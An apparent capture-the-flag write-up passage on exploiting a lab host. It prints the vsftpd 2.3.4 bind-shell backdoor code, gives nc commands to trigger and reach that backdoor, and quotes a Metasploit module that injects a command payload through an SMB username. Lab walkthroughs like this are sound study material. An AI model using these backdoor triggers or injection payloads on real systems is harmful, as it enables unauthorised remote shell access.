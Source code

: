```
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1); 
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  { 
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0); 
-  } 
-}
```

This is easy to test with the following:

```bash
# try and trigger the backdoor:
nc -v 10.10.10.3 21
USER testing:)
PASS password
# try and connect to the backdoor:
nc -v 10.10.10.3 6200
```

However, this does not give an easy win. Next is exploit 45001. However looking at its source sees that it requires valid credentials for the SFTP transfer. next is exploit 16320. It has the following code:

```ruby
def exploit

    connect
    
    # lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
            simple.client.negotiate(false)
            simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
            # nothing, it either worked or it didn't ;)
    end

    handler
end
```
